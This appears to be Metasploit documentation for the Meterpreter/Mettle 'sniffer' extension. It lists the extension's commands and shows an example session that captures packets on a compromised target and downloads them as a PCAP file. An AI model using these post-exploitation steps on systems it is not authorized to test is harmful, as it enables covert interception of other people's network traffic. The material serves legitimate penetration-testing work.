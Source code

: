 SNIFFER EXTENSION
=================

This loadable extension allows users to capture network traffic on a target.

Loading the Sniffer
-------------------

Once you've established a connection to Mettle, you can load the sniffer extension with the following command in your msfconsole terminal:

`load sniffer`

If things go according to plan, you should get a message that the extension was successfully loaded:

```
meterpreter > load sniffer
Loading extension sniffer...Success.
```

Using the Sniffer
-----------------

The sniffer commands operate on a similar paradigm as the keylogger extension commands do.  You can see the available commands with `help` in your msfconsole terminal:

```
Sniffer Commands
================

    Command             Description
    -------             -----------
    sniffer_dump        Retrieve captured packet data to PCAP file
    sniffer_interfaces  Enumerate all sniffable network interfaces
    sniffer_release     Free captured packets on a specific interface instead of downloading them
    sniffer_start       Start packet capture on a specific interface
    sniffer_stats       View statistics of an active capture
    sniffer_stop        Stop packet capture on a specific interface
```

An Example
----------

In this example, I will load the sniffer extension on my target MacBook and then do the following:

* list the available network interfaces
* start sniffing on an interface
* through the sniffed interface I will:
  * ping Google's DNS server at 8.8.8.8
  * run curl to load the `archive.org` webpage
* stop sniffing
* dump the sniffed data from my target as a pcap file in my MSF instance

```
meterpreter > load sniffer
Loading extension sniffer...Success.
meterpreter > sniffer_interfaces

1 - 'enp0s3' ( usable:true )
2 - 'enp0s8' ( usable:true )
3 - 'Pseudo-device that captures on all interfaces' ( usable:true )
4 - 'lo' ( usable:true )
5 - 'docker0' ( usable:false )
6 - 'USB bus number 1' ( usable:false )

meterpreter > sniffer_start 1 2000
[*] Capture started on interface 1 (2000 packet buffer)
meterpreter > sniffer_stats 1
[*] Capture statistics for interface 1
	packets: 133
	bytes: 162537
meterpreter > sniffer_stop 1
[*] Capture stopped on interface 1
[*] There are 133 packets (162537 bytes) remaining
[*] Download or release them using 'sniffer_dump' or 'sniffer_release'
meterpreter > sniffer_dump 1 mycap.pcap
[*] Flushing packet capture buffer for interface 1...
[*] Flushed 133 packets (165197 bytes)
[*] Download completed, converting to PCAP...
[*] PCAP file written to mycap.pcap
```
